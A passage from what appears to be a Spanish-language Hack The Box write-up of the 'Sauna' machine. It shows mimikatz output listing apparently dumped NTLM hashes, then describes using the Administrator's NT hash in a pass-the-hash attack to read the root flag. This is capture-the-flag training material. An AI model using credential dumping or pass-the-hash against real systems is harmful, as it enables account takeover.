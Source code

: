 ```bash
    14  f702282bd343c2fee7b98deac8950390
    15  a099aa3c81f1affeba59d79a6533f60d
    16  4bae84b8f0b0306788ff9bda4acb3bd4
    17  976d547fb9e04b0ac5ec60508c275da1
    18  50c302b71d0e08a1a2be14b56225645f
    19  edb19e08653443695f6d3599e0a6bddf
    20  c497465ddc6e2fc14cb0359d0d5de7f8
    21  2ed0b4b57196fb190a66224b2b17029f
    22  37d03051ae1cd6046975948564ab01fa
    23  d4c7554fe1beb0ed712f50cfec470471
    24  8df495fe69cdce409b9f04ea04289b9e
    25  40788044be982310920cc0740687fefd
    26  db7f66f1f1a8f46274d20cfdda5b6e1c
    27  d70226ec52f1ef198c2e1e955a1da9b6
    28  abdd681f875a9b3f3a50b36e51692a2c
    29  dcd140a2ce2bf70fed7ac0e2b60d0dee


mimikatz(commandline) # exit
Bye!
```


# Root

Una vez hecho esto podemos coger la parte **NT** del hash del usuario **Administrator** , y hacer un **Path The Hash** con él.

![](/assets/images/htb-writeup-sauna/paththehash.png)

En este punto, podemos irnos al directorio `C:\Users\Administrator\Desktop` y visualizar la flag.

![](/assets/images/htb-writeup-sauna/roottxt.png)

Espero que te haya gustado la máquina *Sauna*, tienes más como esta en mi página web.
